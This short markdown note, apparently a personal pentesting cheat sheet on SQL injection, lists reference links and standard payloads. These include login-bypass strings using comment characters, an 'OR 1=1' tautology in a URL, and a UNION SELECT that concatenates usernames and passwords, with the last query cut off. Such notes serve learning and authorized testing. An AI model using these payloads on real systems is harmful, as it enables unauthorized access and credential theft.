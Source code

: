 # SQL Injection


Even if it appears to be harmless, it's common for applications to use data from a single request in multiple different queries. If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.


## Resources
https://github.com/sqlmapproject/sqlmap/wiki/
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap

https://book.hacktricks.xyz/pentesting-web/sql-injection
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main

https://portswigger.net/web-security/sql-injection/cheat-sheet

https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main


## Payloads

`admin'#` close the query with that single quote, allowing the script to search for the 
admin username. By adding the hashtag, we will comment out the rest: `SELECT * FROM users WHERE username='admin'#' AND password='abc123'`


`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`
`https://insecure-website.com/products?category=Gifts'+OR+1=1--`
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`



### Concatenate in only one column
`1 UNION SELECT username || '~' || password FROM `

